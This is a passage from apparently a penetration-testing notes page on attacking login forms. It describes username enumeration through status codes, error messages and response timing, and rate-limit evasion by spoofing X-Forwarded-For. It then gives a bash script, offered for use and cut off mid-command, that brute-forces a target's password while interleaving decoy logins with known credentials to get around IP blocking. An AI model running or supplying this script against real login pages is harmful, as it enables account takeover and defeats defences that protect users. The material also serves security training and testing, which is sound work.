 ### Via Brute force

While attempting to brute-force a login page, you should pay attention to any differences in:&#x20;

* **Status codes \[**_Successful login usually returns status code **`302`** for valid credentials_**]**
* **Error Messages \[**_**`Incorrect username`, `Incorrect Password`**_**]**
* **If the account gets locked out.**
* **Response times \[** _use a large password such as `holholaholaholaholahola` while username enumeration using bruteforce so that we can get somewhat accurate response time for correct username_**]**

{% hint style="info" %}
The correct username causes a delayed response due to password verification, while incorrect usernames fail faster. Using varied IPs via the `X-Forwarded-For` header helps bypass rate limits.
{% endhint %}

* **Different Responses**

{% hint style="info" %}
_In username enumeration, observe subtle differences in server responses for valid vs. invalid usernames. Intercept and save responses, then compare side-by-side in Mousepad for analysis._
{% endhint %}

### Broken brute-force protection, IP block

With one valid login credentials and a known username, we can brute-force by alternating each password attempt with a decoy login to avoid detection, repeating until the correct password is found.

Use this type of script and let it running&#x20;

```bash
#!/bin/bash

# Target and decoy login info
url="https://<target_url>/login"
valid_user="target_username"
decoy_user="known_username"
decoy_pass="known_password"

# Color definitions
RED='\033[1;31m'
GREEN='\033[1;32m'
YELLOW='\033[1;33m'
CYAN='\033[1;36m'
NC='\033[0m' # No Color

# Start brute-force loop
while read -r test_pass; do
    echo -e "${CYAN}[*] Trying: $valid_user / $test_pass${NC}"

    status_code=$(curl -s -o /dev/null -w "%{http_code}" \
        -X POST "$url" \
        -H "Content-Type: application/x-www-form-urlencoded" \
        -d "username=$valid_user&password=$test_pass")

    if [ "$status_code" -eq 302 ]; then
        echo -e "${GREEN}[+] SUCCESS! Password for '$valid_user' is: $test_pass${NC}"
        exit 0
    else
        echo -e "${RED}[-] Failed attempt.${NC}"
        echo -e "${YELLOW}[*] Sending decoy login: $decoy_user / $decoy_pass${NC}"

        curl -s -o /dev/null -w "%{http_code}" \
            -X POST "$url" \
            -H "Content-Type: application/x-www-form-urlencoded" \
```